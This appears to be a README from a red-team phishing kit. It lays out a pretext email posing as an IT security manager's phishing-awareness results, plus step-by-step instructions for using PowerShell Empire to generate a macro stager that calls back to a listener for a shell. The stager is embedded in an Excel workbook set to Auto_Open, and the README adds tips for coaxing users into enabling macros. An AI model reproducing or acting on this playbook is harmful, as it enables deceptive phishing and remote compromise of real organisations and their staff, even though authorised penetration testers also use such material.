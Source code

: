 # Phishing Awareness Training Email 

** Objective:** Shell

## Pretext: 
You are an IT Security Manager, or IT Admin who has reciently conducted a phishing awareness campaign against your company. You are asking users to read through the email for phishing awareness and to download and view the results of the phishing campaign. The excel document needs macros enabled to view the results

## To Change:
Create your own macros (Empire is easiest) to call back. 

## Creating a malicious Macros via Empire
1. Installing Empire
  * git clone git@github.com:PowerShellEmpire/Empire.git
  * ./setup/install.sh
2. Starting up a listener:
  * set host <listening host:port>
  * set whatever parameters you want on this, just type 'info'
  * 'execute'
3. Generating the Macro
  * usestager macro
  * set listener <listener number>
  * 'execute'
  * copy the output function
4. Inserting the macro
  * Open Excel > New Document > 'alt+F11' will get you to the macros
  * Double-clck on "This Workbook"
  * Paste in the macro function from Empire
  * Change the Sub call to 'Auto_Open()'
  * Add the line 'Dim str As String' to the top of the Debugging function call before the powershell call.
  * Go back to the spreadsheet and add in whatever content you want. I like to add in random strings and at the top say that macros needs enabled to view the content. Helps with the pretext.
